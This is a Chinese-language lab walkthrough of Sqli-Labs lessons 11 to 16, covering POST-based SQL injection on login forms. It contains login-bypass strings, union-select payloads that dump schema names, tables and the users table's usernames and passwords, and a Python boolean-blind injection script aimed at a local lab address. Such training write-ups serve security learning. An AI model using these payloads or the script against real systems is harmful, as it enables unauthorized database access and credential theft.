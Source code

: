 ### 一、Introduction
从Less-11开始就是使用post请求的登录了，一般场景模式设置为登录，我使用的工具是postman,谷歌的一个插件也可以下载为本地的一个软件，还是很不错的
### 二、hack
#### Less-11
先试试万能密码
```
admin ' or 1=1#
1
```
发现登录成功了
<!--more-->
![](Sqli-Labs-Less-11-16-POST注入/1.png)
然后查看字段数目和显示位
```
1' order by 3 # //登录后报错
1' union select 1,2 # //两个登录位
```
然后可以使用任意一个登录位来爆数据库
```
1' union select 1,group_concat(schema_name) from information_schema.schemata#
```
![](Sqli-Labs-Less-11-16-POST注入/2.png)
然后爆数据表名，字段名，和第一题差不多了
```
1' union select 1,group_concat(table_name) from information_schema.tables where table_schema=database()#
123' union select 1,group_concat(column_name) from information_schema.columns where table_name='users' #
111' union select group_concat(username),group_concat(password) from users #
```
#### Less-12
通过尝试和报错信息发现输入1") or 1 #后可以用万能密码登录，接下来同上
```
1") union select 1,group_concat(table_name) from information_schema.tables where table_schema=database()#
1") union select 1,group_concat(column_name) from information_schema.columns where table_name='users' #
1") union select group_concat(username),group_concat(password) from users #
```
#### Less-13
万能密码测试发现
```
1') or 1#
```
能登录成功，但是不回显，所以可以布尔注入或者时间盲注 ，我们发现登录成功出现的照片名字叫flag.jpg,而登录失败叫slap.jpg，所以可以通过这个线索来爆破
```python
#!/usr/bin/env python
# encoding:utf8

import requests
import time
import sys

# config-start
sleep_time = 5
error_time = 1
# config-end

def getPayload(indexOfResult, indexOfChar, mid):
	# admin' or ()-- 
	column_name="schema_name"
	table_name="schemata"
	database_name="information_schema"
	payload = "((ascii(substring((select " + column_name + " from " + database_name + "." + table_name + "  limit " + indexOfResult + ",1)," + indexOfChar + ",1)))>" + mid + ")"
	payload = {"uname":"')or (" + payload + ")-- ","passwd":"admin"}
	return payload

def exce(indexOfResult,indexOfChar,mid):
	# content-start
	url = "http://192.168.1.140/sqli-labs-master/Less-13/"
	postData = getPayload(indexOfResult,indexOfChar,mid)
	content = requests.post(url, data=postData).text
	# content-end
	# judge-start
	if "<img src=\"../images/flag.jpg\"   />" in content:
		return True
	else:
		return False
	# judge-end

def doubleSearch(indexOfResult,indexOfChar,left_number, right_number):
	while left_number < right_number:
		mid = int((left_number + right_number) / 2)
		if exce(str(indexOfResult),str(indexOfChar + 1),str(mid)):
			left_number = mid
		else:
			right_number = mid
		if left_number == right_number - 1:
			if exce(str(indexOfResult),str(indexOfChar + 1),str(mid)):
				mid += 1
				break
			else:
				break
	return chr(mid)

def search():
	for i in range(32): # 需要遍历的查询结果的数量
		counter = 0
		for j in range(32): # 结果的长度
			counter += 1
			temp = doubleSearch(i, j, 0, 128) # 从255开始查询
			if ord(temp) == 1: # 当为1的时候说明已经查询结束
			    break
			sys.stdout.write(temp)
			sys.stdout.flush()
		if counter == 1: # 当结果集的所有行都被遍历后退出
			break
		sys.stdout.write("\r\n")
		sys.stdout.flush()

search()
```
#### Less-14
与13题差不多 把`')` 改为 `"`即可
```
1" or 1=1#
```
登录成功不回显，魔改上面脚本即可
#### Less-15
与13题差不多 把`')` 改为`'`即可
```
1' or 1=1#
```
登录成功不回显，魔改上面脚本即可
#### Less-16
与13题差不多 把`')` 改为`")`即可
```
1") or 1=1#
```
登录成功不回显，魔改上面脚本即可

[下一篇-17~22题详解](README5.md)
更多介绍？
[https://kit4y.github.io/tags/Sql-Injection/](https://kit4y.github.io/tags/Sql-Injection/)